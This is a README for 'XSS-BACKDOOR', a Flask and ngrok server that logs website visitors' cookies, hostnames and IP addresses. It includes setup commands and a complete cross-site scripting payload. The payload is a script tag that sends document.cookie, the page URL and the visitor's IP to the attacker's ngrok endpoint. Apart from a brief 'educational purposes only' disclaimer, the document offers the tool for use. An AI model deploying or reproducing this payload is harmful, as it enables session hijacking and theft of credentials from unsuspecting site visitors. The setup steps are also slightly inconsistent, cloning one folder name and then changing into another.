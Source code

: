 # XSS-BACKDOOR

## Overview
XSS-BACKDOOR is a Flask-based web server that uses `ngrok` to expose a local server to the internet. It collects visitor information, including their user agent details, cookies, and Domain adress, and logs them in the console.

## Features
- Uses `Flask` to handle web requests.
- Uses `ngrok` to make the server accessible online.
- Parses user-agent data to identify device type, operating system, and browser.
- Captures and logs domain name and cookies.
- Injects a JavaScript payload to capture cookies from visitors.
- Displays information in a formatted and colorized console output.

## Requirements
Ensure you have the following dependencies installed:

```bash
pip install flask pyngrok colorama user-agents
```

## Setup and Usage
1. Clone this repository:
   ```bash
   git clone https://github.com/SenselessCore/XSS-Backdoor.git
   cd trap-backdoor
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. Run the script:
   ```bash
   python main.py
   ```
4. The script will generate an `ngrok` URL, which can be used to collect visitor information.
5. Payload URL:
   ```html
   <script>fetch("https://api.ipify.org?format=json").then(r=>r.json()).then(d=>d.ip).catch(()=>"_").then(ip=>{new Image().src="NGROK_URL/?"+document.cookie+"&host="+location.hostname+"&url="+encodeURIComponent(location.href)+"&ip="+ip})</script>

   ```
   Replace `NGROK_URL` with the actual `ngrok` link printed in the console.

## Disclaimer
This project is for educational purposes only. Unauthorized use of this software to collect sensitive information without consent is illegal and unethical. The author is not responsible for any misuse of this tool.

## License
MIT License. See [LICENSE](LICENSE) for more details.

